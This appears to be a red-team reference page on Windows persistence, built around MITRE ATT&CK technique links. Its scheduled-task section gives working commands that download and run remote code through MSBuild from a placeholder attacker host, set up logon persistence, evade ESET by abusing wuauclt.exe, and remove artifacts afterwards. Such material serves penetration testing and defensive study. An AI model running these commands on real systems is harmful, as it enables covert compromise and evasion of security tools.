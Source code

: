 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# Windows Persistence
### References

### Example Attacks
* <details><summary>Scheduled Task (Click to expand) ([`Scheduled Task-Job - Scheduled Task` TTP](TTP/T1053_Scheduled_Task-Job/005_Scheduled_Task/T1053.005.md))</summary><p>
	* Creation Process
		1. Create batch script with desired actions (e.g. MSBUILD) `C:\Users\Public\batfile.bat`

				powershell.exe Invoke-Command -ScriptBlock {$var = New-Object net.webclient; $a = $var.downloadstring('<INFRASTRUCTURE>'); Set-Content -Path C:\Users\Public\downloads\jnk_1.txt -value $a;}
				C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe c:\users\public\downloads\jnk_1.txt
		1. Execute the following command to create a scheduled task

				schtasks.exe /create /sc onlogon /tn "blsUpdate" /tr "\"cmd.exe\" \"/c start /min c:\users\public\batfile.bat\""
		1. Another example which bypasses ESET and spawns a process every 30 minutes:

				Invoke-Command -ScriptBlock {$action = New-ScheduledTaskAction -Execute wuauclt.exe -Argument "/UpdateDeploymentProvider C:\users\public\downloads\installer.txt /RunHandlerComServer"; $trigger = New-ScheduledTaskTrigger -Daily -At 12am; $task = Register-ScheduledTask -TaskName winUpdate -Trigger $trigger -Action $action; $task.Triggers.Repetition.Duration="P1D"; $task.Triggers.Repetition.Interval="PT30M"; Set-ScheduledTask -InputObject $task}
		1. To delete this task and remove any artifacts, the following command can be used:

				schtasks.exe /delete /f /tn "winUpdate"

				$A = New-ScheduledTaskAction -Execute "cmd.exe" -Argument '/c del C:\Users\Public\Downloads\installer.txt'
				$T = New-ScheduledTaskTrigger -Once -At (get-date).AddSeconds(10); $t.EndBoundary = (get-date).AddSeconds(60).ToString('s')
				$S = New-ScheduledTaskSettingsSet -StartWhenAvailable -DeleteExpiredTaskAfter 00:00:30
				Register-ScheduledTask -TaskName "Cleanup" -Action $A -Trigger $T -Settings $S

				taskkill /IM "wuauclt.exe" /F

			* It is necessary to create a self-destructing task to do this due to the shell that is spawned through the scheduled task being unable to delete its own payload. 
	* Identify actions run by a scheduled task
		* Option 1

				schtasks /query /tn "winUpdate" /v
		* Option 2

				$task = Get-ScheduledTask | where TaskName -EQ 'winUpdate'
				$task.Actions
		* Option 3

			```
			$taskPath = "Adobe Acrobat Update Task"
			Get-ScheduledTask -TaskName $taskPath |
				ForEach-Object { [pscustomobject]@{
				 Name = $_.TaskName
				 Path = $_.TaskPath
				 LastResult = $(($_ | Get-ScheduledTaskInfo).LastTaskResult)
				 NextRun = $(($_ | Get-ScheduledTaskInfo).NextRunTime)
				 Status = $_.State
				 Command = $_.Actions.execute
				 Arguments = $_.Actions.Arguments }} |
					echo
			```

* Scheduled Task TTPs
	* ([`Scheduled Task-Job - At Windows` TTP](TTP/T1053_Scheduled_Task-Job/002_At_Windows/T1053.002.md))
	* ([`Scheduled Task-Job - Cron` TTP](TTP/T1053_Scheduled_Task-Job/003_Cron/T1053.003.md))
	* ([`Scheduled Task-Job - Launchd` TTP](TTP/T1053_Scheduled_Task-Job/004_Launchd/T1053.004.md))
	* ([`Scheduled Task-Job - Systemd Timers` TTP](TTP/T1053_Scheduled_Task-Job/006_Systemd_Timers/T1053.006.md))
	* ([`Scheduled Task-Job` TTP](TTP/T1053_Scheduled_Task-Job/T1053.md))
* Boot/Logon Autostart Execution ([`Boot or Logon Autostart Execution` TTP](TTP/T1547_Boot_or_Logon_Autostart_Execution/T1547.md))
	* Authentication Package ([`Boot or Logon Autostart Execution - Authentication Package` TTP](TTP/T1547_Boot_or_Logon_Autostart_Execution/002_Authentication_Package/T1547.002.md))
	* Kernel Modules ([`Boot or Logon Autostart Execution - Kernel Modules and Extensions` TTP](TTP/T1547_Boot_or_Logon_Autostart_Execution/006_Kernel_Modules_and_Extensions/T1547.006.md))
	* LSASS Driver ([`Boot or Logon Autostart Execution - LSASS Driver` TTP](TTP/T1547_Boot_or_Logon_Autostart_Execution/008_LSASS_Driver/T1547.008.md))
	* Plist Modification ([`Boot or Logon Autostart Execution - Plist Modification` TTP](TTP/T1547_Boot_or_Logon_Autostart_Execution/011_Plist_Modification/T1547.011.md))
	* Port Monitors ([`Boot or Logon Autostart Execution - Port Monitors` TTP](TTP/T1547_Boot_or_Logon_Autostart_Execution/010_Port_Monitors/T1547.010.md))
	* Print Processors ([`Boot or Logon Autostart Execution - Print Processors` TTP](TTP/T1547_Boot_or_Logon_Autostart_Execution/012_Print_Processors/T1547.012.md))
	* Registry Run ([`Boot or Logon Autostart Execution - Registry Run Keys - Startup Folder` TTP](TTP/T1547_Boot_or_Logon_Autostart_Execution/001_Registry_Run_Keys_-_Startup_Folder/T1547.001.md))
	* Time Providers ([`Boot or Logon Autostart Execution - Time Providers` TTP](TTP/T1547_Boot_or_Logon_Autostart_Execution/003_Time_Providers/T1547.003.md))
	* Winlogon Helper ([`Boot or Logon Autostart Execution - Winlogon Helper DLL` TTP](TTP/T1547_Boot_or_Logon_Autostart_Execution/004_Winlogon_Helper_DLL/T1547.004.md))
	* Security Support ([`Boot or Logon Autostart Execution - Security Support Provider` TTP](TTP/T1547_Boot_or_Logon_Autostart_Execution/005_Security_Support_Provider/T1547.005.md))
	* Re-opened ([`Boot or Logon Autostart Execution - Re-opened Applications` TTP](TTP/T1547_Boot_or_Logon_Autostart_Execution/007_Re-opened_Applications/T1547.007.md))
	* Shortcut Modification ([`Boot or Logon Autostart Execution - Shortcut Modification` TTP](TTP/T1547_Boot_or_Logon_Autostart_Execution/009_Shortcut_Modification/T1547.009.md))


([`Boot or Logon Initialization Scripts - Logon Script Windows` TTP](TTP/T1037_Boot_or_Logon_Initialization_Scripts/001_Logon_Script_Windows/T1037.001.md))
([`Boot or Logon Initialization Scripts - Startup Items` TTP](TTP/T1037_Boot_or_Logon_Initialization_Scripts/005_Startup_Items/T1037.005.md))
([`Boot or Logon Initialization Scripts` TTP](TTP/T1037_Boot_or_Logon_Initialization_Scripts/T1037.md))
